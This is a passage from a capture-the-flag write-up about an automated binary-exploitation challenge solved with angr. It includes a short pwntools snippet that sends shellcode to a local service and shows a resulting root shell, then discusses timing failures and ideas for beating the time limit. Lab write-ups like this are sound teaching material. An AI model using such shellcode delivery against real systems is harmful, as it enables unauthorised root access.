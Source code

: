 ```
p.recvuntil('>')
p.recvuntil('Your time comes.\n> ')
p.send(shellcode)
p.interactive()
```

Output:

```
[+] Opening connection to 127.0.0.1 on port 9999: Done
[*] Switching to interactive mode

bash-4.4# $ id
uid=0(root) gid=0(root) groups=0(root),10(wheel)
```

Got a shell.


#### All together now

[sol.py](sol.py) is the complete end-to-end failed solution because of how relative slow angr is, and if angr is able to solve in (I'm guessing) less than a minute, it'll still fail with:

```
/usr/bin/timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
```

Basically the time took too long and no shellcode was read.  If angr takes more than about a minute (again guessing) the connection is dropped (speculating `/usr/bin/timeout` can be thanked for that).

I did not save all my runs, but of those that I did, this was the fastest:

```
======== 10.363668s ========
```

Just after the binary dump and before the binary execution `/Time` is report as:

```
Rank(Refresh Every Min)
===============
1st. n132(1000)
2ed. shell(434092)
3th. datajerk17751189(17751189)
```

You can see my pathetic last attempt at _17.751189s_.  Above me I can only speculate is [shellphish](https://github.com/shellphish) at _0.434092s_.  Clearly they figured it out and are probably using the same 36-byte shellcode.


#### Now what?

Things I thought about to avoid the very hard work of solving a unique binary in < _0.3s_:

1. Look for other exploits, clearly there are bugs, but none of them looked very useful.
2. Pull down a ton of binaries and hope for duplicates at some measurable rate.  I had time, and with the hash cache I could have probably pulled down a million of them.  Solved one and then tried over and over to get that same binary.  I pulled down ~170 while testing and learning about this challenge, and, well, I started to get the feeling that there would be no duplicate.
3. Slow down time.  What if there were a way to exploit the bug that appended my time to the `/Time` table to make it take a very long time to process and output.

Anyway, that's all lazy talk.  Waiting for the legit write ups to learn new ways to solve these problems.
